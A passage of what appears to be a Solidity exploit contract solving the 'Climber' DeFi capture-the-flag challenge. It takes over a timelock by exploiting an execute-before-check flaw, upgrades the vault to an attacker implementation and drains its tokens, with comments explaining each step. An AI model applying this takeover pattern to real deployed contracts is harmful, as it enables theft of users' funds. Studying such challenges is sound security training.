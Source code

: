 ```àpache

        //Upgrate the vault and withdraw all tokens
        ClimberNewVolt newVault = new ClimberNewVolt();
        vault.upgradeTo(address(newVault));
        ClimberNewVolt(address(vault)).withdrawAll(token, attacker, token.balanceOf(address(vault)));

        //check if the attack was successful and the vault has no tokens, the attacker has all tokens
        console.log("Transfer happend");
        console.log("Vault balance: %s", token.balanceOf(address(vault)));
        console.log("Attacker balance: %s", token.balanceOf(attacker));
    }

    function scheduleOperation() external {
        //to successfully execute our calls, these calls must be scheduled.
        (address[] memory targets, uint256[] memory values, bytes[] memory data) = getParameters();
        timelock.schedule(targets, values, data, "0x0");
    }

    function getParameters() private view returns (address[] memory targets, uint256[] memory values, bytes[] memory data) {
        // attack to achive the role of the proposer for the timelock and the owner of the vault
        targets = new address[](4);
        values = new uint256[](4);
        data = new bytes[](4);

        //make the attacker contract the role of the proposer for the timelock
        targets[0] = address(timelock);
        values[0] = 0;
        data[0] = abi.encodeWithSignature("grantRole(bytes32,address)", PROPOSER_ROLE, address(this));

        //set the delay of the timelock to 0, so we can execute the calls immediately
        targets[1] = address(timelock);
        values[1] = 0;
        data[1] = abi.encodeWithSignature("updateDelay(uint64)", 0);

        //make the attacker contract the owner of the vault
        targets[2] = address(vault);
        values[2] = 0;
        data[2] = abi.encodeWithSignature("transferOwnership(address)", address(this));

        //Schedule the calls, that we are able to execute the calls. This is possible because of a reentrency bug in the timelock contract
        //the check for REadyForExecution should be before the execution of the calls, but it is after the execution of the calls
        targets[3] = address(this);
        values[3] = 0;
        data[3] = abi.encodeWithSignature("scheduleOperation()");
    }
}

```
